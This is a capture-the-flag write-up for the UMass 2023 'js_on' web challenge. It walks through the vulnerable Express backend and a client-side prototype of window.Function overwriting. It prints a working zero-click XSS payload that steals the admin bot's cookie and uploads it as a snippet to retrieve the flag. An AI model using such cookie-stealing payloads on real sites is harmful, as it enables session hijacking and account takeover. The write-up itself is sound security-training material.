


# UMass 2023 - js\_on

## 💙 Description

> Why call it JSON if I can't put my own JS there? Introducing JS-ON! Now you can share your JS with your friends to enjoy next level development!
>
> Bot: [http://bot-json.web.ctf.umasscybersec.org:9000](http://bot-json.web.ctf.umasscybersec.org:9000)
>
> File : [app.js](https://umass-ctf-challenges.s3.amazonaws.com/web/app.js)
>
> Main Site : [http://app-json.web.ctf.umasscybersec.org:3000](http://app-json.web.ctf.umasscybersec.org:3000)

## The Challenge

What we first run into when opening this challenge is a website that allows you to execute and save / share a snippet of javascript code together with a predefined execution environment called `JS-ON`. In this case, prefilled with a snippet of code logging a hello-world variable.

Of note is that `JS-ON` snippets are running entirely client-side and only use the backend for code/environment storage. At no point is any user-defined JS being executed on the server.

<figure><figcaption><p>The main website</p></figcaption></figure>

In addition to the main JS-ON page, there's an 'admin bot' website that can visit arbitrary JS-ON snippets. Clicking `Submit` does not offer any output or other information about what the bot is doing _exactly_ besides giving a "currently visiting" and "visit done" status update.

<figure><figcaption><p>The bot website</p></figcaption></figure>

Finally, we also get an `app.js` file that gives us a peek at the backend of `JS-ON`:

```javascript
// Removed all the imports and basic express stuff to save space

let adminLibs = {};

adminLibs[process.env.ADMIN_ACCOUNT] = {
  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}


app.use(cookiep());
app.use('/static', express.static('public'))

app.get('/', async (req, res) => {
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    uid = uuidv4();
    await client.set(uid,JSON.stringify({
      "code":"console.log(message)",
      "js-on":{'var_message':'Hello World'}
    }))
    res.set({'Set-Cookie':`user=${uid}`});
  }
  res.redirect(`/user/${uid}`);
})

app.get('/code/admin',(req,res)=>{
  let cookie = req.cookies.user;
  if(cookie && cookie === process.env.ADMIN_ACCOUNT){
    return res.json(adminLibs[cookie]);
  }
  res.json({'error':'Did not recieve admin cookie'})
})

app.get('/user/:id',async (req,res)=>{
  let uid = req.params.id ? req.params.id : '';

  let user = await client.get(req.params.id);
  if(!user){
    return res.redirect('/');
  }
  res.sendFile(path.join(__dirname,'public/html/index.html'))
})

app.get('/code/:id',async (req,res)=>{
  let uid = req.params.id; 
  let user = await client.get(uid)
  if(!user){
    return res.json({'error':'Could not find js-on for this'})
  }
  res.json(JSON.parse(user))
})

app.use(express.json());

app.post('/code',async (req,res)=>{
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    return res.json({'error':'Could not find js-on for that user!'});
  }
  try{
    req.body['js-on'] = JSON.parse(req.body['js-on'])
  }
  catch(e){
    return res.json({'error':'Failed to parse js-on!'})
  }
  await client.set(req.cookies.user,JSON.stringify(req.body));
  res.json({'success':'JS-ON loaded onto server!'});
})
```

The server creates a unique identifier cookie for each user that connects to it, and saves the user's code and JS-ON environment in Redis using that id.

There is also an admin feature that allows a user with a specific admin cookie to access a pre-defined `JS-ON` snippet containing the flag at the special url `/code/admin`.

<pre class="language-javascript"><code class="lang-javascript"><strong>adminLibs[process.env.ADMIN_ACCOUNT] = {
</strong>  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}
</code></pre>

Of note is that there are no strict checks in place that limit a user to their own ID's snippet. While _updating_ is only possible on your own snippet, you may in fact open any other user's snippet for _viewing_ if you know the ID. This will be important later.

## The solution

The website and it's hello-world example are relatively bare-bones. At first sight it seems all we can put in the JS-ON box are variables to be accessed by the code snippet.&#x20;

However, looking at the client-side sources, we can see that JS-ON actually also supports defining objects (using `obj_name`) and functions (`func_name`).&#x20;

<figure><figcaption><p>The JS-ON fetch code running at page-load</p></figcaption></figure>

Especially interesting here is the way these created functions, vars, and objects are stored. They are written into something called `cur` which - further down in the invocation - turns out to be `this` which - due to the call not being inside any `function` - turns out to be the javascript `window` object.

Since anything inside `window` is accessible globally, we can trick this code into overwriting the `Function()` constructor, giving us arbitrary code execution instantly after the page is loaded without needing to press the `Run this code!` button (as long as the override `func_` is followed by another dummy `func_` that triggers the invocation).

For example:

```json
{
    "func_Function": "alert('ohno');",
    "func_require": ";"
}
```

<figure><figcaption></figcaption></figure>

With zero-click code execution working - and the fact that any user can freely open any other user's snippets - we can extend our snippet into a tool that steals the current user cookie of whoever opens our snippet, and leak it back to us by uploading it as a replacement snippet.

This may for example look like this:

```javascript
let adminCookie = document.cookie;
document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/';

fetch('/code', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({ 
      code: ace.edit('editor1').getValue(), 
      'js-on': JSON.stringify({var_cookie: adminCookie})
  }) 
});
```

Now wrap that into a single-line string as the `func_Function` JS-ON:

```json
 {
     "func_Function": "let adminCookie = document.cookie; document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/'; fetch('/code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ code: ace.edit('editor1').getValue(), 'js-on': JSON.stringify({ var_cookie: adminCookie }) }) });",
     "func_require": ";"
 }
```

Since this code runs directly at page load, and `Save your Code & JS-ON!` always does a refresh, we need to submit this to our user ID using burp, curl, or any other non-browser tool.

Next open the admin bot and ask it to open `/user/7ed131b9-415d-465d-8a2b-3ffd68ad4acd`.

Refresh your page in the browser, and you got the cookie:

<figure><figcaption></figcaption></figure>

Replace your cookie with this value, open `/code/admin`, and we've got the flag:


```json
{
    "code": "/*\n    !!! The best code ever !!!\n  */ \n  console.log(1+2);//I think this should output 5\n  console.log(flag);//this is my awesome flag",
    "js-on": {
        "var_flag": "UMASS{M4YB3_JS_$h0uld_b3_0FF_BruH_XDDDDDD489253}"
    }
}
```

